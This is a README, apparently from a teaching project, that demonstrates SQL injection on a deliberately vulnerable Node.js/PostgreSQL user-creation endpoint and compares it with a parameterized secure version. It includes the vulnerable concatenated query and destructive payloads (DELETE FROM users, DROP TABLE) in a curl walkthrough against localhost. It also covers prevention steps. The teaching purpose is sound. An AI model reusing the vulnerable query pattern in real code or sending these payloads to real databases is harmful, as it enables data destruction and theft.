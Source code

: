 # SQL Injection Attack Demonstration

⚠️ **EDUCATIONAL PURPOSE ONLY** ⚠️  
This document demonstrates SQL injection vulnerabilities for learning purposes. Never implement vulnerable code in production!

## Important Clarification: SQL Injection vs XSS

- **SQL Injection**: Injecting malicious SQL code into database queries
- **XSS (Cross-Site Scripting)**: Injecting malicious scripts into web pages

What you're looking for is **SQL Injection**, not XSS.

## Overview

This project contains two POST endpoints for creating users:

1. **Secure endpoint**: `POST /users` - Uses parameterized queries (protected)
2. **Vulnerable endpoint**: `POST /users/vulnerable` - Uses string concatenation (vulnerable)

## The Vulnerable Code

The vulnerable endpoint in `routes/users.js` uses direct string concatenation:

```javascript
// ⚠️ DANGEROUS CODE
const query = `INSERT INTO users (name, email, phone, address, city, country) 
               VALUES ('${name}', '${email}', '${phone}', '${address}', '${city}', '${country}') 
               RETURNING *`;
```

## SQL Injection Attack Examples

### 1. Delete All Users Attack

**Payload for the `name` field:**

```
'); DELETE FROM users; --
```

**Complete request body:**

```json
{
  "name": "'); DELETE FROM users; --",
  "email": "attacker@evil.com",
  "phone": "+972512345678",
  "address": "123 Evil St",
  "city": "Hackerville",
  "country": "Malicious"
}
```

**What happens:**
The malicious input transforms the query into:

```sql
INSERT INTO users (name, email, phone, address, city, country)
VALUES (''); DELETE FROM users; --', 'attacker@evil.com', '+972512345678', '123 Evil St', 'Hackerville', 'Malicious')
RETURNING *
```

This executes two statements:

1. `INSERT INTO users (name, email, phone, address, city, country) VALUES ('');` (invalid but partial)
2. `DELETE FROM users;` (deletes all users!)
3. `--` comments out the rest

### 2. Drop Table Attack

**Payload for the `name` field:**

```
'); DROP TABLE users; --
```

This would completely remove the users table.

### 3. Data Exfiltration Attack

**Payload for the `name` field:**

```
'); SELECT * FROM users; --
```

This could be used to extract sensitive data.

## How to Test the Attack

### Prerequisites

1. Make sure your PostgreSQL database is running
2. Install dependencies: `npm install`
3. Start the server: `npm start`

### Step 1: Set up test data

First, create some users using the secure endpoint to have data to delete:

```bash
# Create test users (using secure endpoint)
curl -X POST http://localhost:3000/users \
  -H "Content-Type: application/json" \
  -d '{
    "name": "John Doe",
    "email": "john@example.com",
    "phone": "+972512345678",
    "address": "123 Main St",
    "city": "Tel Aviv",
    "country": "Israel"
  }'

curl -X POST http://localhost:3000/users \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Jane Smith",
    "email": "jane@example.com",
    "phone": "+972587654321",
    "address": "456 Oak Ave",
    "city": "Jerusalem",
    "country": "Israel"
  }'
```

### Step 2: Verify users exist

```bash
curl http://localhost:3000/users
```

### Step 3: Execute the SQL injection attack

```bash
curl -X POST http://localhost:3000/users/vulnerable \
  -H "Content-Type: application/json" \
  -d '{
    "name": "'\'''); DELETE FROM users; --",
    "email": "attacker@evil.com",
    "phone": "+972512345678",
    "address": "123 Evil St",
    "city": "Hackerville",
    "country": "Malicious"
  }'
```

### Step 4: Verify all users are deleted

```bash
curl http://localhost:3000/users
```

You should see an empty array `[]` - all users have been deleted!

## Why This Attack Works

1. **No Input Sanitization**: The vulnerable endpoint doesn't validate or escape user input
2. **String Concatenation**: Direct insertion of user input into SQL strings
3. **Multiple Statements**: PostgreSQL allows multiple statements separated by semicolons
4. **Comment Injection**: `--` comments out the rest of the query, preventing syntax errors

## How the Secure Version Prevents This

The secure endpoint (`POST /users`) uses:

1. **Parameterized Queries**: `$1, $2, $3...` placeholders
2. **Input Validation**: Express-validator middleware
3. **Input Sanitization**: `.escape()` and `.trim()` methods

```javascript
// SECURE CODE
const result = await pool.query(
  `INSERT INTO users (name, email, phone, address, city, country) 
     VALUES ($1, $2, $3, $4, $5, $6) 
     RETURNING *`,
  [name, email, phone, address, city, country]
);
```

## Prevention Methods

1. **Always use parameterized queries**
2. **Validate and sanitize all user input**
3. **Use ORM/Query Builders** (like Sequelize, Prisma)
4. **Implement least privilege** (database user permissions)
5. **Enable query logging** for monitoring
6. **Regular security audits**

## Real-World Impact

SQL injection can lead to:

- **Data breaches** (stealing sensitive information)
- **Data destruction** (deleting entire databases)
- **Unauthorized access** (bypassing authentication)
- **System compromise** (in some cases, OS command execution)

## Testing Tools

- **SQLMap**: Automated SQL injection testing tool
- **Burp Suite**: Web application security testing
- **OWASP ZAP**: Free security testing proxy

## Legal Notice

⚠️ **WARNING**: Only test SQL injection on systems you own or have explicit permission to test. Unauthorized testing is illegal and unethical.

## Resources

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PostgreSQL Security Documentation](https://www.postgresql.org/docs/current/security.html)
- [Node.js Security Best Practices](https://nodejs.org/en/docs/guides/security/)

---

Remember: The goal is to understand these vulnerabilities so you can **prevent** them, not exploit them!
